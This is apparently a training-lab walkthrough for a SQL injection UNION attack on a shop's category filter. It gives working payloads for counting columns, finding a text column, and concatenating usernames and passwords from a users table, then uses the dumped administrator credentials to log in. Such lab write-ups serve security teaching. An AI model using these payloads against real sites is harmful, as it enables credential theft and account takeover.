

# SQL injection UNION attack, retrieving multiple values in a single column

### **1. Locate the injection point**

/filter?category= is concatenated directly into an SQL query. Because the page echoes the query results, anything you inject through category can be displayed in the catalog.

```txt
GET /filter?category=Accessories
```

---

### **2. Work out the structure of the original query**

**Column count**

```sql
Accessories' ORDER BY 2--         → no error
Accessories' ORDER BY 3--         → database error
```

The statement returns **two columns**.

**Text-compatible column**

```sql
Accessories' UNION SELECT NULL,'test'--   → renders “test” on the page
```

Column 2 accepts strings; column 1 is numeric (or otherwise non-text).

---

### **3. Build a UNION that shows both username and password**

The users table contains username and password. You need both values in the single text column that the page will display. SQL string concatenation (\|\|) joins them with a separator.

```txt
Accessories' UNION SELECT NULL, username || ':' || password FROM users-- -
```

- NULL – placeholder for the first (numeric) column.
- username \|\| ':' \|\| password – concatenates the two fields into one string.
- \- - – comments the remainder of the original statement so any trailing quote is ignored.

**URL-encoded payload**

```sql
Accessories%27%20UNION%20SELECT%20NULL,%20username%20||%20'%3A'%20||%20password%20FROM%20users--%20-
```

---

### **4. Confirm the output**

The catalog now lists extra rows such as:

```json
administrator:dtusb937resklt6aei4t
carlos:ssr572fqb115nno5bl1w
wiener:vn2lvy65xeyid6ruojw4
```

This proves the UNION succeeded and the data types aligned correctly because NULL satisfied the non-text column while the string appeared in the text column.



---

### **5. Finish the lab**

1. Copy the administrator credentials from the list.
2. Log in via **My account** using those credentials.
3. Successful login completes the exercise.

---

### **Why the placeholder must be**

### **NULL**

UNION demands that each column in the injected SELECT is type-compatible with the corresponding column in the original query. A literal string in a numeric column causes a conversion error; NULL is typeless and can be silently cast to any required type. Therefore:

- If only one column is text-friendly, keep every other position NULL.
- If both columns were text, you could inject two separate strings instead.

The lab is solved once the page shows the concatenated username:password pairs and you authenticate as the administrator.
